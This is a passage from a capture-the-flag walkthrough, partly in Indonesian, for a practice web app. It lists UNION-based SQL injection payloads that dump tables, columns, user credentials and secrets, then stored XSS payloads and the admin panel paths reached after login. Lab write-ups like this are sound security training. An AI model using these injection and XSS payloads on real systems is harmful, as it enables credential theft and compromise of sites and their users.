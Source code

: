 ```bash
```

#### 2.2 Database Enumeration via Search
```sql
-- Enumerate tables
' UNION SELECT 1,table_name,3,4,5 FROM information_schema.tables WHERE table_schema='mystery_corp'-- 

-- Enumerate columns
' UNION SELECT 1,column_name,3,4,5 FROM information_schema.columns WHERE table_name='users'-- 

-- Extract user data
' UNION SELECT 1,username,password,role,5 FROM users-- 

-- Extract employee data (contains flags)
' UNION SELECT 1,name,department,secret_note,5 FROM employees-- 

-- Extract secrets (requires admin access)
' UNION SELECT 1,title,content,access_level,5 FROM secrets-- 
```

**Flags Found:**
- `FLAG{sql_injection_master_b4d1c0d3}` - Login sebagai admin

### Phase 3: Cross-Site Scripting (XSS) 🚨

#### 3.1 Stored XSS Discovery
```sql
-- Search for XSS payload in employee notes
Search: Alice

-- XSS payload akan muncul di hasil:
<script>alert("FLAG{xss_found_h3r3}")</script>
```

#### 3.2 XSS Exploitation
```javascript
// Payload yang tersimpan di database
<script>alert("FLAG{xss_found_h3r3}")</script>

// Payload untuk testing
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
```

**Flags Found:**
- `FLAG{xss_found_h3r3}` - Temukan XSS di employee notes

### Phase 4: Privilege Escalation & Admin Access 🔐

#### 4.1 Admin Panel Access
Setelah login sebagai admin, akses:
- `/admin/secrets.php` - Company secrets
- `/admin/vault.php` - Security vault
